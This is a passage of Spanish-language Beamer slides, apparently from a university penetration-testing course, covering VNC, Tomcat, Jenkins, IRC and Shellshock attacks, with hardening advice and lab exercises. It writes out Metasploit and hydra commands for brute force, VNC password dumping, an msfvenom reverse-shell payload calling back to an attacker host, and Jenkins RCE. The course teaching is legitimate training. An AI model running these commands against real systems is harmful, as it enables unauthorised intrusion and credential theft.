\begin{center}
\includegraphics[width=\textwidth,height=0.34\textheight,keepaspectratio]{img/pg_copyexec.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{PostgreSQL: defensa y hardening}
\small
  \begin{itemize}
  \item \textbf{Red y acceso}: en \cmd{pg\_hba.conf} restringe hosts y metodos de autenticacion; usa \cmd{listen\_addresses='localhost'} si no se necesita acceso remoto.
  \item \textbf{Minimo privilegio}: la aplicacion \textbf{nunca} debe conectarse como superusuario ---\cmd{COPY FROM PROGRAM} y \cmd{pg\_read\_file} lo requieren---; crea roles limitados.
  \item \textbf{Credenciales}: contrasenas fuertes y unicas, rotacion y \cmd{SCRAM-SHA-256} (no MD5).
  \item \textbf{Parcheado y cifrado}: PostgreSQL al dia; TLS en transito y cifrado de datos en reposo.
  \item \textbf{Monitorizacion}: alerta ante \cmd{COPY ... FROM PROGRAM}, uso de superusuario y logins fallidos.
  \end{itemize}
\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{VNC: qué es y enumeración}
\small
  \begin{itemize}
  \item \textbf{VNC} (Virtual Network Computing) da acceso grafico remoto mediante el protocolo \term{RFB}. A diferencia de RDP, es \textbf{multiplataforma} (Linux/Windows). Escucha en \cmd{5900+N} (display :N $\rightarrow$ 590N).
  \item El RFB clasico \textbf{no cifra} y limita la contrasena a 8 caracteres: un objetivo frecuente en pentest interno.
  \end{itemize}
\cmdbox{nmap -p5900,5901 -sV <IP>\\
nmap -p5901 --script vnc-info <IP>\ \ \ \ \# tipos de autenticacion y version RFB}
\begin{center}
\includegraphics[width=\textwidth,height=0.44\textheight,keepaspectratio]{img/vnc_enum.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/vnc-penetration-testing/}{VNC Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{VNC: cracking de credenciales y acceso}
\small
  \begin{itemize}
  \item Si el servicio pide contrasena, se puede hacer fuerza bruta con \cmd{hydra} (o el modulo \cmd{auxiliary/scanner/vnc/vnc\_login}). Con \cmd{vnc\_none\_auth} se detectan servidores \textbf{sin autenticacion}.
  \end{itemize}
\cmdbox{hydra -s 5901 -P pass.txt -t 16 <IP> vnc\\
vncviewer <IP>:5901\ \ \ \ \# conectar al escritorio remoto}
\begin{center}
\includegraphics[width=\textwidth,height=0.46\textheight,keepaspectratio]{img/vnc_viewer.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/vnc-penetration-testing/}{VNC Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{VNC: acceso mediante payload (vncinject)}
\small
  \begin{itemize}
  \item Metasploit puede \textbf{inyectar un servidor VNC} en la maquina victima con el payload \cmd{vncinject}: se obtiene el escritorio sin credenciales.
  \item Desde una sesion Meterpreter previa: \cmd{run vnc} o el modulo \cmd{exploit/windows/local/payload\_inject}.
  \end{itemize}
\cmdbox{msfvenom -p windows/x64/vncinject/reverse\_tcp lhost=<KALI> lport=5432 -f exe > vnc.exe\\
use exploit/multi/handler\ \ \ \ set payload windows/x64/vncinject/reverse\_tcp\ \ \ \ run}
\begin{center}
\includegraphics[width=\textwidth,height=0.40\textheight,keepaspectratio]{img/vnc_inject.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/vnc-penetration-testing/}{VNC Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{VNC: volcado y descifrado de credenciales}
\small
  \begin{itemize}
  \item La contrasena de VNC se guarda cifrada con una \textbf{clave DES fija y publica}, asi que es \textbf{reversible} (no es un hash). Con una sesion en el objetivo se recupera en claro.
  \end{itemize}
\lead{Volcado con Metasploit (post-explotacion)}
\cmdbox{use post/windows/gather/credentials/vnc\ \ \ \ set session <N>\ \ \ \ run}
\lead{Descifrado del fichero de contrasena}
\cmdbox{vncpwd.exe passwd\ \ \ \ (Windows)\ \ \ \ \ \ ./vncrack\_s -C ~/.vnc/passwd\ \ \ \ (Linux)}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.36\textheight,keepaspectratio]{img/vnc_creds.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/vnc-penetration-testing/}{VNC Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{VNC: captura de credenciales y defensa}
\small
  \begin{itemize}
  \item \textbf{Servicio falso}: \cmd{auxiliary/server/capture/vnc} levanta un VNC senuelo que captura el \term{challenge-response} de quien se conecte, para crackearlo despues.
  \end{itemize}
\cmdbox{use auxiliary/server/capture/vnc\ \ \ \ set JOHNPWFILE /root/vnc\_hashes\ \ \ \ run}
\lead{Defensa}
  \begin{itemize}
  \item \textbf{Cifrado}: el RFB clasico va en claro $\rightarrow$ tunel por SSH (\cmd{ssh -L 5901:localhost:5901 user@host}) o VPN; usar variantes con TLS.
  \item \textbf{Exposicion}: nunca publicar \cmd{5900+} en Internet; enlazar a \cmd{localhost} y filtrar por firewall.
  \item \textbf{Credenciales}: contrasenas fuertes (y control de acceso por usuario); revisar servidores sin autenticacion.
  \end{itemize}
\fuente{Fuente: \href{https://www.hackingarticles.in/vnc-penetration-testing/}{VNC Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{IRC: puerta trasera en UnrealIRCd}
\small
  \begin{itemize}
  \item En el puerto 6667 está abierto el servicio IRC, una red de comunicación en tiempo real en la que se puede hablar con varios usuarios a la vez. Existe un exploit en Metasploit que aprovecha una puerta trasera maliciosa añadida al archivo \cmd{Unreal3.2.8.1}, como se puede ver en
    \href{https://www.cvedetails.com/cve/CVE-2010-2075/}{CVE-2010-2075}.
  \item Igual que con vsftpd, no es un fallo de programación sino una \textbf{compromisión de la cadena de suministro}: alguien alteró el tarball distribuido oficialmente.
  \end{itemize}
\begin{center}
\includegraphics[width=0.42\textwidth,height=0.52\textheight,keepaspectratio]{img/sl045_1.png}
\end{center}
\end{frame}

\begin{frame}{Tomcat: enumeración del gestor}
\small
  \begin{itemize}
  \item Apache Tomcat funciona como un contenedor web con soporte de servlets ---clases en lenguaje Java utilizadas para ampliar las capacidades de un servidor---. Metasploit dispone de un módulo auxiliar (se puede buscar con \cmd{search tomcat}). Se configura, se ejecuta y se obtiene:
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.62\textheight,keepaspectratio]{img/sl046_1.png}
\end{center}
\end{frame}

\begin{frame}{Tomcat: despliegue de un WAR malicioso}
\small
  \begin{itemize}
  \item Como se puede ver, está corriendo la versión Tomcat/5.5 con las credenciales \cmd{tomcat/tomcat}. Podemos buscar las vulnerabilidades asociadas en
    \href{https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-26722/Apache-Tomcat-5.5.0.html}{CVE Details}
    y usar el exploit \cmd{tomcat\_mgr\_deploy}, que habría que configurar y ejecutar:
  \item No hay aquí ninguna vulnerabilidad de memoria: el módulo simplemente se autentica en el gestor y despliega un \cmd{.war} con una shell. La «vulnerabilidad» son las credenciales por defecto.
  \end{itemize}
\begin{center}
\includegraphics[width=0.66\textwidth,height=0.58\textheight,keepaspectratio]{img/sl047_1.png}
\end{center}
\end{frame}

\begin{frame}{Tomcat: sesión obtenida}
\begin{center}
\includegraphics[width=\textwidth,height=0.75\textheight,keepaspectratio]{img/sl047_2.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio: auditoría completa de Metasploitable2}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl048_1.jpg}
\end{center}
  \begin{itemize}
  \item Realiza una auditoría completa a la distribución Metasploitable2. Para cada servicio descubierto:
    \begin{itemize}
    \item Utiliza los módulos auxiliary para enumerar información sensible.
    \item Realiza ataques de diccionario usando los auxiliary.
    \item Busca un exploit del servicio vulnerable y consigue acceder al sistema como se ha descrito en las transparencias anteriores.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: explotar Windows XP}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl052_1.jpg}
\end{center}
  \begin{itemize}
  \item A partir de la máquina \href{https://pruebasaluuclm-my.sharepoint.com/personal/joseluis_martinez_uclm_es/_layouts/15/onedrive.aspx?id=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs\%2FWinXP\%5FSP3\%2Eova&parent=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs&originalPath=aHR0cHM6Ly9wcnVlYmFzYWx1dWNsbS1teS5zaGFyZXBvaW50LmNvbS86dTovZy9wZXJzb25hbC9qb3NlbHVpc19tYXJ0aW5lel91Y2xtX2VzL0VacTdldHhHUEc5SXZuU1QyMkc5anZzQlg4aV82bU95SVpiVkVaNzNsTWN2eXc\%5FcnRpbWU9bzkzeWNrY2oyVWc}{Win XP} puedes explotar:
    \begin{itemize}
    \item El puerto 80
    \item El puerto 22
    \item \cmd{exploit/windows/smb/ms08\_067\_netapi}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: explotar aplicaciones en Windows 7}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl053_1.jpg}
\end{center}
  \begin{itemize}
  \item A partir de la máquina \href{https://pruebasaluuclm-my.sharepoint.com/personal/joseluis_martinez_uclm_es/_layouts/15/onedrive.aspx?id=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs\%2FWin7\%2Eova&parent=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs&originalPath=aHR0cHM6Ly9wcnVlYmFzYWx1dWNsbS1teS5zaGFyZXBvaW50LmNvbS86dTovZy9wZXJzb25hbC9qb3NlbHVpc19tYXJ0aW5lel91Y2xtX2VzL0VTM2IzWVIyMmFSR2dueC1HWEFlLVA4QmdvbEtYdjEybWdwbzBsQWZybi1JNkE\%5FcnRpbWU9TFZJMTJFY2oyVWc}{Win7} puedes explotar las aplicaciones:
    \begin{itemize}
    \item BadBlue
    \item AllMedia Server
    \item Icecast
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: máquina Kenobi (TryHackMe)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl054_1.jpg}
\end{center}
  \begin{itemize}
  \item Resuelve la máquina \href{https://tryhackme.com/room/kenobi}{Kenobi} de TryHackMe, en la que debes:
    \begin{itemize}
    \item Escanear y enumerar.
    \item Explotar un FTP para copiar un \cmd{id\_rsa}.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: máquina Eclipse (DockerLabs)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl055_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes resolver la máquina \href{https://mega.nz/file/RG0whSrR\#dhO_VHaG-BK8A6NcVwiAhYWxZiStdYj9yT3DFWGiVEQ}{Eclipse} de DockerLabs.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: máquina Dina (VulnHub)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl056_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes resolver la máquina \href{https://www.vulnhub.com/entry/dina-101,200/}{Dina} de VulnHub.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: Drupal vulnerable en contenedor}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl057_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes resolver el contenedor siguiente, que despliega un Drupal vulnerable y se puede explotar con Metasploit:
    \begin{itemize}
    \item \href{https://dise0.gitbook.io/h4cker_b00k/ctf/dockerlabs/ejotapete-dockerlabs-very-easy}{Ejotapete}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: Struts S2-052 (PentesterLab)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl058_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes resolver la máquina PentesterLab de VulnHub, vulnerable a Struts S2-052:
    \begin{itemize}
    \item \href{https://www.vulnhub.com/entry/pentester-lab-s2-052,206/}{PentesterLab S2-052}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Jenkins: enumeración y explotación}
\footnotesize
\lead{Fuerza bruta de credenciales}
\cmdbox{use auxiliary/scanner/http/jenkins\_login\\
set RHOSTS <IP> $\cdot$ set RPORT 8080 $\cdot$ set USER\_FILE ... $\cdot$ set PASS\_FILE ...\\
run \ \ \# encuentra credenciales válidas (en el ejemplo, raj:123)}
\lead{RCE con Metasploit}
\cmdbox{use exploit/multi/http/jenkins\_script\_console\\
set TARGET Linux $\cdot$ set PAYLOAD linux/x86/meterpreter/reverse\_tcp\\
set USERNAME raj $\cdot$ set PASSWORD 123 $\cdot$ exploit}
  \begin{itemize}
  \item Jenkins es un objetivo especialmente jugoso: suele ejecutarse con privilegios altos y guarda credenciales de despliegue, tokens de repositorios y claves de infraestructura.
  \end{itemize}
\end{frame}

\section{Vulnerabilidades bien conocidas}

\begin{frame}{Por qué algunas vulnerabilidades tienen nombre propio}
\small
\lead{Algunas vulnerabilidades generan un gran impacto debido a:}
  \begin{itemize}
  \item El daño que producen.
  \item Lo relativamente sencillo de explotarlas.
  \item Que afectan a muchísimos dispositivos.
  \item Que tienen una criticidad muy alta.
  \item Que a partir de ellas se produce un incidente muy relevante.
  \end{itemize}
  \begin{itemize}
  \item Todo esto hace que, aparte de tener un CVE asignado como toda vulnerabilidad, se les ponga un nombre o seudónimo.
  \item El nombre y el logotipo no son anecdóticos: buscan que la vulnerabilidad llegue a los medios y, con ello, acelerar el parcheo. Heartbleed fue la primera en usar esta estrategia de forma deliberada.
  \end{itemize}
\end{frame}

\begin{frame}{Las más reconocidas}
\small
Algunas de las más reconocidas:
  \begin{itemize}\setlength{\itemsep}{0.5em}
  \item Shellshock (\href{https://nvd.nist.gov/vuln/detail/CVE-2014-6271}{CVE-2014-6271}) --- ejecución de comandos vía \cmd{bash}.
  \item Heartbleed (\href{https://nvd.nist.gov/vuln/detail/CVE-2014-0160}{CVE-2014-0160}) --- fuga de memoria en OpenSSL.
  \item EternalBlue (\href{https://nvd.nist.gov/vuln/detail/CVE-2017-0144}{CVE-2017-0144}) --- RCE en SMBv1.
  \item BlueKeep (\href{https://nvd.nist.gov/vuln/detail/CVE-2019-0708}{CVE-2019-0708}) --- RCE \emph{wormable} en RDP.
  \item Zerologon (\href{https://nvd.nist.gov/vuln/detail/CVE-2020-1472}{CVE-2020-1472}) --- toma de controlador de dominio.
  \item Log4Shell (\href{https://nvd.nist.gov/vuln/detail/CVE-2021-44228}{CVE-2021-44228}) --- RCE vía JNDI en Log4j.
  \end{itemize}
  \begin{itemize}
  \item Todas ellas están en el catálogo \href{https://www.cisa.gov/known-exploited-vulnerabilities-catalog}{KEV de CISA}: explotación confirmada en el mundo real.
  \end{itemize}
\end{frame}

\begin{frame}{Shellshock (CVE-2014-6271)}
\small
  \begin{itemize}
  \item Es una vulnerabilidad en el intérprete de comandos \cmd{bash} de UNIX.
  \item Se produce por una validación incorrecta al definir una función en una variable de entorno.
  \item ¿Ejecución remota de código? Sí. Se puede explotar en servidores que, por ejemplo, utilicen CGI en bash para ejecutar alguna funcionalidad.
  \item Estuvo presente en el código de \cmd{bash} durante más de veinte años antes de descubrirse.
  \end{itemize}
\lead{Comprobación}
\cmdbox{env x=\textquotesingle{}() \{ :;\}; echo vulnerable\textquotesingle{} bash -c "echo this is a test"}
  \begin{itemize}
  \item Módulo de Metasploit para Shellshock sobre CGI:
  \end{itemize}
\cmdbox{msf6 > use exploit/multi/http/apache\_mod\_cgi\_bash\_env\_exec}
\fuente{Ficha completa: \href{https://nvd.nist.gov/vuln/detail/CVE-2014-6271}{NVD --- CVE-2014-6271} (CVSS v3.1 = 9.8, crítica)}
\end{frame}

\begin{frame}{Ejercicio: preparar Metasploitable2 para Shellshock}
\footnotesize
\begin{center}
\includegraphics[width=0.4\textwidth,height=0.3\textheight,keepaspectratio]{img/sl066_1.jpg}
\end{center}
  \begin{itemize}
  \item Metasploitable2 no es vulnerable a Shellshock de serie: antes hay que exponer un CGI en bash. Ejecuta este script en la máquina víctima:
  \end{itemize}
\cmdbox{\#!/bin/bash\\
touch /usr/lib/cgi-bin/hello.sh\\
echo \textquotesingle{}\#!/bin/bash\textquotesingle{} >> /usr/lib/cgi-bin/hello.sh\\
echo \textquotesingle{}echo "Content-type: text/html"\textquotesingle{} >> /usr/lib/cgi-bin/hello.sh\\
echo \textquotesingle{}echo ""\textquotesingle{} >> /usr/lib/cgi-bin/hello.sh\\
echo \textquotesingle{}echo "Hello World!"\textquotesingle{} >> /usr/lib/cgi-bin/hello.sh\\[2pt]
chmod 755 /usr/lib/cgi-bin/hello.sh}
  \begin{itemize}
  \item Con el CGI ya publicado, explota la vulnerabilidad contra \cmd{/cgi-bin/hello.sh}.
  \end{itemize}
\end{frame}

\begin{frame}{Shellshock: interceptar la petición con Burp}
\small
  \begin{itemize}
  \item Enviamos la petición interceptada al repetidor para poder modificarla con el exploit.
  \end{itemize}
\begin{center}
\includegraphics[width=0.86\textwidth,height=0.72\textheight,keepaspectratio]{img/sl063_1.png}
\end{center}
\end{frame}

\begin{frame}{Shellshock: inyectar el exploit en User-Agent}
\small
  \begin{itemize}
  \item Modificamos la cabecera \cmd{User-Agent} con el exploit (bind TCP shell) y lo enviamos con Burp. Después nos conectamos con \cmd{netcat}.
  \item IMPORTANTE: solo podrás ejecutar comandos que existan en el servidor remoto, y se ejecutarán con los permisos del usuario de Apache.
  \end{itemize}
\begin{center}

\includegraphics[width=0.56\textwidth,height=0.44\textheight,keepaspectratio]{img/sl064_1.png}\\[2pt]

\includegraphics[width=\textwidth,height=0.36\textheight,keepaspectratio]{img/sl065_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio: Shellshock en PentesterLab}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl067_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes explotar Shellshock a partir de este laboratorio de PentesterLab:
    \begin{itemize}
    \item \href{https://pentesterlab.com/exercises/cve-2014-6271/course}{Curso CVE-2014-6271}
    \item \href{https://pentesterlab.com/exercises/cve-2014-6271/attachments}{ISO de la máquina vulnerable}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Heartbleed (CVE-2014-0160)}
\small
  \begin{itemize}
  \item Afecta a la biblioteca de código abierto OpenSSL, ampliamente utilizada para proporcionar seguridad en la comunicación a través del protocolo SSL/TLS.
  \item Se debió a un error de programación en OpenSSL que permitía a un atacante leer información sensible de la memoria de un servidor vulnerable sin necesidad de autenticación.
  \item Se basa en un error en la extensión TLS \emph{Heartbeat}, que permite que un cliente envíe solicitudes de ``latido'' al servidor para comprobar si sigue conectado. El problema radica en que un atacante puede enviar una solicitud de latido maliciosa con un tamaño de carga útil falsificado, lo que hace que el servidor responda con datos de memoria que no estaban destinados a ser revelados: contraseñas, claves de cifrado, información de sesiones y otros datos sensibles.
  \item Es una vulnerabilidad de \emph{divulgación de información}, no de ejecución de código: no da shell, pero puede entregar la clave privada del servidor. Y no deja rastro en los registros.
  \end{itemize}
\end{frame}

\begin{frame}{Heartbleed: explotación con Metasploit}
\small
  \begin{itemize}
